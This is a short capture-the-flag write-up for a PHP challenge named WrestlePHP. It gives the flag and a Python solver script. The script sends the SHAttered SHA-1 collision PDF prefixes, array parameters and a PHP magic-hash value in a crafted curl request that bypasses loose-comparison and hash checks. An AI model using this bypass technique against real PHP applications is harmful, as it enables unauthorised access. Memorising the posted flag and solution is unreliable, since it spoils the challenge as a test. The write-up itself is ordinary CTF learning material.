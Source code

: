 # Kiran Ghimire - WrestlePHP

## Challenge Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}

## Write-up:

It was easy challenge.Just run the below code you will get the answer.

You can get pdfs from this site : [Click Here](https://shattered.io)


```
from subprocess import run, PIPE
import hashlib
import requests
import urllib
import re

#sha1Collision
hasher = hashlib.sha1()
B_S = 320
buf1=''
with open('shattered-1.pdf','rb') as f:
    buf1 = f.read(B_S)
    hasher.update(buf1)


hasher = hashlib.sha1()
buf2=''
with open('shattered-2.pdf', 'rb') as afile:
    buf2 = afile.read(B_S)
    hasher.update(buf2)

nice = urllib.parse.quote(buf1)
ecin = urllib.parse.quote(buf2)

#md5
md5 = "0e215962017"

curled = f"curl -s https://php.0daygod.xyz/\?hello\=hi\&world\[\]=10001x0\&nice={nice}\&ecin={ecin} -H 'User-Agent: Yes, I am a human.' -H 'Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/' -d 'ctf=0e215962017&parm[]=1&mrap[]=2'"



flag = run(curled , shell=True, capture_output=True)


flag_part = flag.stdout

print("Result: ",(re.findall(rb'Flag: hacktoberfest_ctf{.*}', flag_part)))

```
